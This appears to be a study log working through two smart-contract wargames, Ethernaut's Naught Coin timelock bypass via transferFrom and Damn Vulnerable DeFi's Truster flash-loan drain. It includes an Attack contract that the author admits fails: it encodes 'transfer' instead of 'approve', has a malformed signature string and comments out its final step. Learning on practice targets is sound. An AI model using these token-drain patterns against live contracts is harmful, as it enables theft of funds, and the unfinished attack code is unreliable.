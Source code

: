 ## Day 14-15: ERC20

### Ethernaut #15 Naught Coin 

This is an ERC20 token and we own the full supply of these tokens, but we can only withdraw with the transfer() function after 10 years.  The challenge is to transfer the coins out before the lockout period.  Here is a shot of the transfer and lockTokens() functions.  

```Java

  function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
    super.transfer(_to, _value);
  }

  // Prevent the initial owner from transferring tokens until the timelock has passed
  modifier lockTokens() {
    if (msg.sender == player) {
      require(block.timestamp > timeLock);
      _;
    } else {
     _;
    }
  }
```

One possible exploit is to transfer the tokens using a different method than ```transfer()```, since this contract inherits all the ERC20 methods and only overrides ```transfer()```.  The other possible method is: ```transferFrom()```.  Two other accounts called ADDRESS_2, and ADDRESS_3, will be needed to accomplish this.  

This was accomplished with the following steps:

step 1. player approves ADDRESS_2 to spend INITIAL_SUPPLY tokens.  
step 2. ADDRESS_2 calls ```transferFrom(player, ADDRESS_3, INITIAL_SUPPLY)```.  



### Damn Vulnerable Defi #3 Truster

This is flah loan pool that lends out DVT tokens.  The objective is after starting with 0 tokens take all the tokens in the pool. The main flashLoan function is below: 

```Java
    function flashLoan(uint256 amount, address borrower, address target, bytes calldata data)
        external
        nonReentrant
        returns (bool)
    {
        uint256 balanceBefore = token.balanceOf(address(this));

        token.transfer(borrower, amount);
        target.functionCall(data);

        if (token.balanceOf(address(this)) < balanceBefore)
            revert RepayFailed();

        return true;
    }
```

The main steps in the flash loan code are transfer() and then the target functionCall(), at first it appears that functionCall() is an interface for using the flash loan, however upon further inspection functionCall() is from OpenZeppelin utils in the Address.sol file.  Here is the relevant code: 

```Java
(bool success, bytes memory returndata) = target.call{value: value}(data);
```

This takes any contract we desire and calls any function we desire, very interesting.  With this knowledge we can attack the pool by not borrowing any tokens and instead using the function call to approve our contract to spend the external tokens.  A contract that does this is given below.  


```Java
contract Attack {
    TrusterLenderPool immutable pool;
    DamnValuableToken immutable token;
    uint256 constant MAX_UINT = type(uint256).max;

    constructor(address _poolAddress, address _tokenAdd) {
        pool = TrusterLenderPool(_poolAddress);
        token = DamnValuableToken(_tokenAdd);
    }

    function attack() external {
        // pack up the function call
        uint tokensToMove = token.balanceOf(address(pool));
        console.log("tokens to move: ", tokensToMove);
        bytes memory packedFtnCall = abi.encodeWithSignature("transfer(address, uint256)", msg.sender, tokensToMove); // this doesn't work
        // bytes memory packedFtnCall = abi.encodeWithSignature("balanceOf(address)", address(pool));  // this works

        // borrow 0 tokens so we don't have to worry about returning them.  
        pool.flashLoan(0, msg.sender, address(token), packedFtnCall);

        // now that we have the approval transfer the tokens to the boss
        // token.transferFrom(address(pool), msg.sender, tokensToMove);
    }
}
```

This fails if ```approve()``` or ```transfer()``` are called.  It's not completely clear to me why it fails, it is failing during the OpenZeppelin ```verifyCallResult()``` in Oz/contracts/utils/Address.sol.  